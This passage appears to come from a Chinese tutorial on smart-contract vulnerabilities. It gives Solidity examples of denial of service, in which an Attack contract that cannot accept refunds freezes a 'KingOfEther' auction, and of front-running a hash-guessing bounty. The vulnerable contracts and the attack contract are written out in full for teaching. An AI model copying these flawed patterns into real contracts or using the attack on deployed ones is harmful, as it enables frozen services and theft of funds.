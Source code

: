 
### 拒绝服务攻击

依赖某些特定条件才能执行的逻辑，如果有人恶意破坏并且没有检查是否满足条件，就会造成服务中断。

例如下面的例子：依赖接收者可以接收以太币，但是如果接收以太币的合约无 `receive` 函数或者 `fallback` 函数，就会让逻辑无法进行下去。

多人竞拍，如果有出价更高的则退回上个一竞拍者的以太币，并且更新胜出者 `king` 和当前标价 `balance`，`Attack` 合约参与竞拍，但是无法退回以太币给它，导致 DOS。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}

contract Attack {
    KingOfEther kingOfEther;

    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}

```

### 交易顺序依赖

某些合约依赖收到交易地顺序，例如某些竞猜或者首发，“**第一个**” 之类的要求，那么就容易出现抢跑 (front run) 的情况。再例如，利用不同代币汇率差别，观察交易池，抢先在汇率变化之前完成交易。

下面是通过哈希值竞猜，观察交易池，以更高的 gasprice 抢跑。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract FindThisHash {
    bytes32 public constant hash =
        0x564ccaf7594d66b1eaaea24fe01f0585bf52ee70852af4eac0cc4b04711cd0e2;

    constructor() payable {}

    function solve(string memory solution) public {
        require(hash == keccak256(abi.encodePacked(solution)), "Incorrect answer");

        (bool sent, ) = msg.sender.call{value: 10 ether}("");
        require(sent, "Failed to send Ether");
    }
}

```